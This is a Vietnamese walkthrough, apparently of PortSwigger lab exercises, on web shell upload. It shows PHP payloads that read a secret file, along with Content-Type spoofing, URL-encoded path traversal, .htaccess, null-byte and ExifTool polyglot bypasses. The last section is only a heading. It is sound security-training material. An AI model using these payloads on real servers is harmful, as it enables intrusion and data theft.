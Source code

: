 # 1. Remote code execution via web shell upload
Ta thấy chức năng upload avatar cho phép ta upload bất kì loại file nào. Như vậy ta thử upload file payload.php với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Sau khi upload file, ta truy cập `/files/avatars/payload.php` thì thấy nội dung file /home/carlos/secret đã được hiển thị:

![image](https://user-images.githubusercontent.com/103978452/202854734-8fa1c18b-4117-4a3c-b75e-547b67b16588.png)

# 2. Web shell upload via Content-Type restriction bypass
Khi upload file có đuôi .php thì website trả về lỗi, thông báo rằng chỉ cho phép uplaod file với MIME type image/jpeg hoặc image/png.

Ta thử upload file payload.php với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
rồi thay đổi Content-Type từ `application/x-php` thành `image/jpeg` rồi submit (sử dụng Burp Repeater)

Kết quả thành công. Ta truy cập `/files/avatars/payload.php` thì thấy nội dung file /home/carlos/secret được hiển thị

![image](https://user-images.githubusercontent.com/103978452/202857559-21ced5bd-38e0-47f0-a627-0b64162b40f7.png)

# 3. Web shell upload via path traversal
Ta thử upload file payload.php với nội dung
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
rồi truy cập `/files/avatars/payload.php` thì thấy nội dung file được hiển thị thay vì được execute. Ta sẽ thử upload file payload.php vào các folder khác sử dụng kĩ thuật directory traversal.

Trong tab Repeater của BurpSuite, ta thấy POST request đến `/my-account/avatar` có nội dung như sau:

![image](https://user-images.githubusercontent.com/103978452/202960724-6834b606-d122-43ba-8f10-b716b5a1f5f9.png)

Thay đổi `filename="../payload.php"`, kết quả trả về `The file avatars/payload.php has been uploaded`. Thử với các relative path, absolute path khác cũng có kết quả tương tự. Như vậy có thể server lọc ra filename trước rồi mới upload.

Thử dùng URL encode, thay `filename="%2E%2E%2F%70%61%79%6C%6F%61%64%2E%70%68%70"` (tương ứng `payload="../payload.php` sau khi decode) thì thấy kết quả trả về thành công

![image](https://user-images.githubusercontent.com/103978452/202961066-81908b20-efee-4af1-8076-2c0754a00c5b.png)

Truy cập `/files/payload.php`, ta thấy đoạn code được execute và trả về nội dung file /home/carlos/secret

![image](https://user-images.githubusercontent.com/103978452/202961174-fed4b7c5-a005-4096-b909-b56917ff110d.png)

# 4. Web shell upload via extension blacklist bypass
Ta thấy server đã chặn các file có đuôi .php. Thử sử dụng các kỹ thuật để obfuscate file extension, kết quả không thành công

Ta thử bypass bằng cách upload file `.htaccess` với nội dung:
```
AddType application/x-httpd-php .jpg
```
File này sẽ cấu hình server cho phép chạy các file có đuôi .jpg như một file php

![image](https://user-images.githubusercontent.com/103978452/203673325-04ed4e21-1fcb-466d-b8a7-13d0386969ac.png)

Kết quả upload file thành công. Ta tiếp tục upload file `payload.jpg` với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
Sau đó truy cập `/files/avatars/payload.jpg`, kết quả thu được nội dung file cần tìm.

![image](https://user-images.githubusercontent.com/103978452/203673682-3cca7ead-61ec-48b3-954c-9212adc7ea37.png)

# 5. Web shell upload via obfuscated file extension
Ta upload file `payload.php` với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
thì server trả về thông báo lỗi: "Sorry, only JPG & PNG files are allowed"

Ta thay đổi filename thành `payload.php%00.jpg` rồi submit, kết quả thành công.

Truy cập `/files/avatars/payload.php` thu được nội dung file cần tìm

![image](https://user-images.githubusercontent.com/103978452/203674340-7274dfef-a47e-4a9d-82c6-3e832485c6c6.png)

# 6. Remote code execution via polyglot web shell upload
Ta upload file `payload.php` thì thấy server trả về `Error: file is not a valid image`.

Dùng ExifTool để chèn một đoạn php vào trong file image `naruto.jpg` với lệnh:
```
exiftool -DocumentName="<h1>HELLO</h1><?php echo file_get_contents('/home/carlos/secret'); ?>" naruto.jpg
```
Sau đó đổi tên file thành `naruto.php` và upload lên website. Kết quả trả về thành công. Dùng BurpSuite để bắt request, ta thấy trong nội dung file có chứa đoạn code đã được inject

![image](https://user-images.githubusercontent.com/103978452/203678647-73fc07b3-f7f7-43df-99c5-e64a5bbbf57d.png)

Thử truy cập `/files/avatars/naruto.php` thì server trả về lỗi `500 Internal Server Error`. Như vậy có khả năng trong phần thân image có các kí tự đặc biệt như `<?` khiến cho đoạn code bị lỗi. Ta dùng lệnh `__halt_compiler() ?>` để các đoạn code bên dưới không được execute. Như vậy injected code sẽ là:
```
<h1>HELLO</h1><?php echo file_get_contents('/home/carlos/secret'); __halt_compiler();
```
Sau khi upload, truy cập `/files.avatars/naruto.php`, kết quả trả về nội dung file mong muốn.

![image](https://user-images.githubusercontent.com/103978452/203678976-af5de655-ed73-404e-a818-fb4515bea3ca.png)

# 6. Web shell upload via race condition
